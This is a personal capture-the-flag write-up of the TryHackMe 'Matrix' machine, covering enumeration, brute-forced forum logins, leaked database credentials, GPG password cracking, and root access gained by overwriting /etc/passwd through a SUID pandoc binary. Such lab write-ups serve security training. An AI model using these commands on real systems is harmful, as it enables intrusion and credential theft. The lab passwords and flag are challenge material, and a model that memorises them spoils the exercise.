 #+TITLE: THM - Matrix
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap
*** nmap -sC -sV matrix
  #+begin_example

Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-17 13:19 UTC
Nmap scan report for matrix (10.10.11.215)
Host is up (0.076s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2c:54:c1:d0:05:91:e1:c0:98:e1:41:f2:b3:21:d9:6b (RSA)
|   256 1e:ba:57:5f:29:8c:e4:7a:b4:e5:ac:ed:65:5d:8e:32 (ECDSA)
|_  256 7b:55:2f:23:68:08:1a:eb:90:72:43:66:e1:44:a1:9d (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Linux-Bay
3306/tcp open  mysql   MySQL 5.5.5-10.1.47-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.47-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 34
|   Capabilities flags: 63487
|   Some Capabilities: DontAllowDatabaseTableColumn, InteractiveClient, LongColumnFlag, Support41Auth, ConnectWithD
atabase, ODBCClient, SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, LongP
assword, FoundRows, Speaks41ProtocolOld, SupportsCompression, SupportsLoadDataLocal, SupportsAuthPlugins, SupportsM
ultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: <wfyO^l"`>VvpOw,qv{(
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.70 seconds

  #+end_example

*** nmap -p- matrix
  #+begin_example

  Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-17 13:19 UTC
  Nmap scan report for matrix (10.10.11.215)
  Host is up (0.060s latency).
  Not shown: 65532 closed ports
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  3306/tcp open  mysql

  Nmap done: 1 IP address (1 host up) scanned in 2240.22 seconds
#+end_example

** gobuster
*** gobuster dir -w ~/repos/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://matrix -x php
#+begin_example

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://matrix
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/leo/repos/wordlists/dirbuster/directory-list-2.
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/01/17 13:23:34 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 301] [--> http://matrix/images/]
/rss.php              (Status: 302) [Size: 0] [--> syndication.php]        
/contact.php          (Status: 200) [Size: 9936]                           
/login                (Status: 200) [Size: 241]                            
/search.php           (Status: 200) [Size: 14791]                          
/archive              (Status: 301) [Size: 302] [--> http://matrix/archive/]
/index.php            (Status: 200) [Size: 10588]                           
/files                (Status: 200) [Size: 240]                             
/misc.php             (Status: 200) [Size: 0]                               
/uploads              (Status: 301) [Size: 302] [--> http://matrix/uploads/]
/stats.php            (Status: 200) [Size: 10250]                           
/general              (Status: 200) [Size: 233]                             
/calendar.php         (Status: 200) [Size: 28450]                           
/global.php           (Status: 200) [Size: 98]                              
/admin                (Status: 301) [Size: 300] [--> http://matrix/admin/]  
/online.php           (Status: 200) [Size: 9853]                            
/member.php           (Status: 302) [Size: 0] [--> index.php]               
/showthread.php       (Status: 200) [Size: 9002]                            
/portal.php           (Status: 200) [Size: 11991]                           
/report.php           (Status: 200) [Size: 9603]                            
/memberlist.php       (Status: 200) [Size: 31994]                           
/ftp                  (Status: 200) [Size: 240]                             
/forumdisplay.php     (Status: 200) [Size: 8982]                            
/css.php              (Status: 200) [Size: 0]                               
/install              (Status: 301) [Size: 302] [--> http://matrix/install/]
/announcements.php    (Status: 200) [Size: 8832]                            
/polls.php            (Status: 200) [Size: 0]                               
/private.php          (Status: 200) [Size: 9684]                            
/cache                (Status: 301) [Size: 300] [--> http://matrix/cache/]  
/blue                 (Status: 200) [Size: 241]                             
/syndication.php      (Status: 200) [Size: 395]                             
/flag                 (Status: 200) [Size: 240]                             
/inc                  (Status: 301) [Size: 298] [--> http://matrix/inc/]    
/newreply.php         (Status: 200) [Size: 8830]                            
/error                (Status: 200) [Size: 240]                             
/printthread.php      (Status: 200) [Size: 8830]                            
/captcha.php          (Status: 200) [Size: 0]                               
/usercp.php           (Status: 200) [Size: 9772]                            
/attachment           (Status: 200) [Size: 240]                             
/attachment.php       (Status: 200) [Size: 8834]                            
/e-mail               (Status: 200) [Size: 240]                             
/newthread.php        (Status: 200) [Size: 8807]                            
/secret               (Status: 200) [Size: 241]                             
/task.php             (Status: 200) [Size: 43]                              
/panel                (Status: 200) [Size: 241]                             
/administrator        (Status: 200) [Size: 241]                             
/warnings.php         (Status: 200) [Size: 9603]                            
/reputation.php       (Status: 200) [Size: 8849]                            
/jscripts             (Status: 301) [Size: 303] [--> http://matrix/jscripts/]
/moderation.php       (Status: 200) [Size: 9596]                             
/change_password      (Status: 200) [Size: 240]                              
Progress: 126044 / 441122 (28.57%)                                          ^C
[!] Keyboard interrupt detected, terminating.
                                                                             
===============================================================
2022/01/17 13:37:08 Finished
===============================================================

#+end_example

** www (myBB)
   https://github.com/mybb

*** bug bounty thread
    Per accedere a questa pagina bisogna essere registrati.

    http://matrix/showthread.php?tid=25&pid=62#pid62
    
    #+begin_example
    
We are committed to protecting our community from future cyber
attacks.

If you're a security expert or enthusiast who actively participates in
finding security holes in web applications, then linux-bay needs
you. To participate all you need to do is ensure you report any minor
weaknesses to the following page: /bugbountyHQ and we will attempt to
resolve said issues. Please note: If the security weakness is
considered critical then please PM me or any of the mods, DO NOT use
the above report page. thank you

UPDATE: disabled due to maintenance.
    #+end_example

*** http://matrix/bugbountyHQ
    
    #+begin_src js
$(".sendEmail").submit(function(e) {
    /*
    send to report page 
     loading_show();
        $.ajax
        ({
            type: "POST",
            url: "/reportPanel.php",
            data: { 'FORM_DATA': $('#DATA').val() },
            success: function(msg)
            {
                loading_hide();
                $("#container").html(msg);
    
    ,*/    
    #+end_src

*** http://matrix/reportPanel.php

    Ho trovato questo codice html
    
    #+begin_src html
 <p hidden>
Keymaker message:
1 16 5 18 13 21 20 1 20 9 15 14 15 6 15 14 12 25 20 8 5 5 14 7 12 9 19 8 12 5 20 20 5 18 19 23 9 12 12 15 16 5 14 20 8 5 12 15 3 11 19

1 4 4 18 5 19 19: /0100101101100101011110010110110101100001011010110110010101110010

 </p>      
    #+end_src

    e questi bug reports
    
    #+begin_example
your mybb login system is not using any 'captcha mechanism' or 'failed login timeout method' which makes it very vulnerable to password spray attacks.
    
Considering several surveys have found that 3 in 5 online users use weak passwords such as:

password123, Password123, crabfish, linux123, secret, piggybank,
windowsxp, starwars, qwerty123, qwerty, supermario, Luisfactor05,
james123,

ect, i would say you should ASAP implement some protection
to avoid future data breaches.
    #+end_example
*** user credentials
    Trovate con python script per bruteforcing
    
    #+begin_example
     Found credentials! (PalacerKing:qwerty)
     Found credentials! (ArnoldBagger:Luisfactor05)
    #+end_example
*** http://matrix/private.php?action=read&pmid=12
    Trovato nella inbox di ~ArnoldBagger~

    #+begin_example
    Hey, James, I tried accessing version 2 from /devBuilds and it seems to be offline for me right now any ideas?    
    #+end_example

*** http://matrix/devBuilds/

    #+begin_example
    	Parent Directory	 	-	 
[   ]	modManagerv1.plugin	2021-01-28 17:34	11	 
[   ]	modManagerv2.plugin	2021-02-04 19:11	5.6K	 
[   ]	modManagerv3.plugin	2021-01-28 17:34	16	 
[TXT]	p.txt.gpg	2021-02-04 19:11	104	 
    #+end_example

*** http://matrix/devBuilds/modManagerv2.plugin
    
    #+begin_example
    $sql_p = file_get_contents('inc/tools/manage/SQL/p.txt'); //read SQL password from p.txt
    #+end_example

    #+begin_example
    //!!!!!!SQL LOGIN for modManager (needed for reading login_keys for user migration)
define('localhost', 'localhost:3306');
//mysql connect using user 'mod' and password from 'sql_p varirable'
$db = mysql_connect('localhost','mod',$sql_p);
    #+end_example
*** http://matrix/0100101101100101011110010110110101100001011010110110010101110010
    #+begin_src js
//keymaker: "English letters below"
var chinese = "诶比西迪伊吉艾杰开哦o屁西迪伊吉杰开哦艾杰开f哦屁q西屁西迪伊吉艾杰开哦x屁西迪伊吉艾杰开哦屁西迪伊吉艾杰开v哦屁西迪伊吉艾杰西迪伊g吉艾杰提维"    
    #+end_src

*** decoding keymaker message
    #+begin_example
    a permutation of only the english letters will open the locks
    #+end_example

    Estrapolandole da
    http://matrix/0100101101100101011110010110110101100001011010110110010101110010
    otteniamo

    #+begin_example
    ofqxvg
    #+end_example

*** switch to any user
    use ~login_key~ found in database dump with userid
    
    #+begin_example
    7_JY1Avl8cqCMkIFprMxWbTxwf8dSkiv7GJHzlPDWJWWg9gnG3FB
    #+end_example
    
    This works for any user
    
    #+begin_example
    userid_loginkey
    #+end_example

*** modManaverv description
    Found in ~BlackCat~.

    #+begin_example
    Paul is handling it at the moment as it has some bugs i am trying to sort out. As mentioned on the phone the new plugin we're working on should make moderating much easier for our most trusted moderators; it'll allow you and the other mods to be able to migrate to standard accounts through mybb's uid and login_key concepts. This way you'll be able to track user posting behaviors quicker for identifying spamming.
Kind regards,
Bill
    #+end_example
** mysql
   user 'mod'
   myS3CR3TPa55 //SQL Password
   
   #+begin_src sh
mysql -u mod -pmyS3CR3TPa55 -h matrix   
   #+end_src

*** (modManagerv2) select * from members

    #+begin_example
    MariaDB [modManagerv2]> select * from members;
+----------------+-----------------------------------------------------+
| user           | login_key                                           |
+----------------+-----------------------------------------------------+
| LucyRob        | xa72nhg3opUxviKUZWbMAwmyOekaJOFTGjiJjfAMhPkeIjk2Ig  |
| Wannabe_Hacker | LsVBnPTZGeUw6JkmMKFrzkSIUPu5TC0Nej8DAjwYXenQcCFEpv  |
| batmanZero     | TBTZq6GfniPvFfb2A3rA2mQoThcb5U7irVF5lLpr0L4cJcy5m9  |
| SandraJannit   | 6V5H71ZnvoW0FFbXx97YsV9LSnT4mltu9XB1v8qPo2X2CvfWBS  |
| biggieballo    | 75mXme5o0eY2o68sqeGBlTDvZcyJKmBhxUAusxiv6b816QilCG  |
| AimsGregger    | Xj8nuWt5Xn9UYzpIha1q2Fk4GUjyrEPPbpchDCwnniUO0ZzZyf  |
| BlackCat       | JY1Avl8cqCMkIFprMxWbTxwf8dSkiv7GJHzlPDWJWWg9gnG3FB  |
| Golderg        | clkNBtIoKICfzm6joGE2lTUiF2T8sVUfhtb2Aksst8zTRK2842  |
| TonyMontana    | 8CtllQvd9V2qqHv0ZSjUj3PzuTSD37pam4ld8YjlB7gDN0zVwE  |
| CaseBrax       | eHXBFESqEoE5Ba2gcOjD8oBMJcgNRkazcJOc8wQQ9mGVRpMdvU  |
| Ellie          | G9KY2siJp9OOymdCiQclQn9UhxL6rSpoA3MXHCDgvHCcrCOOuT  |
| Sosaxvector    | RURFzCfyEIBeTE3yzgQDY34zC9jWqiBwSnyzDooH33fSiYr9ci  |
| PalacerKing    | 49wrogyJpIQI834MlhDnDnbb3Zlm0tFehnpz8ftDroesKNGbAX  |
| Anderson       | lkJVgYjuKl9P4cg8WUb8XYlLsWKT4Zxl5sT9rgL2a2d5pgPU1w  |
| CrazyChris     | tpM9k17itNHwqqT7b1qpX8dMq5TK83knrDrYe6KmxgiztsS1QN  |
| StaceyLacer    | QD8HpoWWrvP1I7kC4fvTaEEunlUz2ABgFUG5Huj8nqeInlz7df  |
| ArnoldBagger   | OoTfmlJyJhdJiqHXucrvRueHvGhE6LnBi5ih27KLQBKfigQLud  |
| Carl_Dee       | 3mPkPyBRwo67MOrJCOW8JDorQ8FvLpuCnreGowYrMYymVvDDXr  |
| Xavier         | ZBs4Co6qovOGI7H9FOI1qPhURDOagvBUgdXo8gphst8DhIyukP  |
+----------------+-----------------------------------------------------+
    #+end_example

** john
*** john --wordlist=wordlist.txt p.txt.john 
    wordlist.txt was generated with 
    
    #+begin_src python
#!/usr/bin/env python3

import itertools

if __name__ == "__main__":
    symbols = "ofqxvg"

    for x in itertools.permutations(symbols):
        print("".join(x))    
    #+end_src

    where the symbols were extracted from http://matrix/0100101101100101011110010110110101100001011010110110010101110010

  #+begin_example

Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224
]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 
10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fvgoxq           (?)
1g 0:00:00:25 DONE (2022-01-17 14:27) 0.03954g/s 8.382p/s 8.382c/s 8.382C/s fvgoqx..fvgoxq
Use the "--show" option to display all of the cracked passwords reliably
Session completed

  #+end_example
* PrivEsc
** architect
   Per entrare fare brute force tramite script ~ssh-topt.py~ ripreso da

   https://raw.githubusercontent.com/GeardoRanger/M4tr1xBrute/main/M4tr1xBrute.py

*** architect@matrixV99:~$ find / -perm -u=s 2>/dev/null
    #+begin_example
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/pandoc
/usr/local/bin/sudo    
    #+end_example
** root
*** privesc
   Per ottenere privesc da root cambiare /etc/passwd con pandoc come
   segue
   
   #+begin_src sh
/usr/bin/pandoc -t plain passwd -o /etc/passwd
   #+end_src

   dove passwd era generato prendendolo dal sistema e cambiando la
   password di root con il seguente codice
   
   #+begin_src sh
   perl -e 'print crypt("toor", "AA")  .  "\n"'
   #+end_src

   #+begin_example
root:AAug171jePcFo:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
architect:x:1000:1000:architect:/home/architect:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false   
   #+end_example
*** root@matrixV99:/etc# cat -- '-- -root.py'
    #+begin_src python
from progress.bar import FillingSquaresBar
import time

print('''
$ > REQ> Source: Matrix v.99; Destination: Real world;
$ > EXIT GRANTED;
$ > Exiting Matrix... Entering real world... Please wait...
''')
key = 82
flag = (9087 ^ 75 ^ 90 ^ 175 ^ 52 * 13 * 19 - 18 * 2 + key)

bar = FillingSquaresBar(' LOADING...', max=24)
for i in range(24):
    time.sleep(1)
    # Do some work
    bar.next()
bar.finish()
print('\nFlag{R3ALw0r1D'+str(flag)+'Ez09WExit}') 
print("\nMorpheus: Welcome to the real world... Now... Let's begin your real training...\n")    
    
    #+end_src

*** /etc/bigpaul.txt
    
    #+begin_example
web login:
bigpaul = ilovemywifeandgirlfriend022366
ACP Pin = 101754⊕123435+689511    
    #+end_example

    effettuando il calcolo del pin
    
    #+begin_example
    718008
    912104
    #+end_example
